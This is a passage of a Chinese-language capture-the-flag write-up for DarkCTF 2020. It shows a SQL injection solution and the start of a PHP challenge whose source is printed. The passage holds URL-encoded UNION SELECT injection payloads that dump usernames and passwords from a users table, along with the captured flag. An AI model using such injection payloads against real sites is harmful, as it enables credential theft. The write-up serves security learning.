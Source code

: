 然後猜flag就中了，運氣不錯
```
http://web.darkarmy.xyz:30001/?id=-1%27%20UNION%20(SELECT%20id,username,password%20FROM%20users%20WHERE%20username%20LIKE%20%27%flag%%27)%20UNION%20SELECT%201,2,3%27
```
>Your Login name:flag
Your Password:darkCTF{uniqu3_ide4_t0_find_fl4g}

重新想了一下有沒有更好的解法
發現了group_concat這個很猛的function，可以直接看到所有username，當初試有成功，不過我寫writeup的時候突然失效了==
這樣看起來information_schema.tables也可以這樣操作，下次有機會再試試看
```
http://web.darkarmy.xyz:30001/?id=-1%27%20UNION%20(SELECT%201,2,group_concat(username)%20FROM%20users)%20UNION%20SELECT%201,2,3%27
```
### PHP information
#### 題目:
Let's test your php knowledge.

Flag Format: DarkCTF{}

http://php.darkarmy.xyz:7001
#### 解法:
打開網站是php的source code
```php
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Corona Web</title>
</head>
<body>
    

    <style>
        body{
            background-color: whitesmoke
        }
    </style>
<?php

include "flag.php";

echo show_source("index.php");


if (!empty($_SERVER['QUERY_STRING'])) {
    $query = $_SERVER['QUERY_STRING'];
    $res = parse_str($query);
    if (!empty($res['darkctf'])){
        $darkctf = $res['darkctf'];
    }
}

if ($darkctf === "2020"){
    echo "<h1 style='color: chartreuse;'>Flag : $flag</h1></br>";
}

if ($_SERVER["HTTP_USER_AGENT"] === base64_decode("MjAyMF90aGVfYmVzdF95ZWFyX2Nvcm9uYQ==")){
    echo "<h1 style='color: chartreuse;'>Flag : $flag_1</h1></br>";
}


```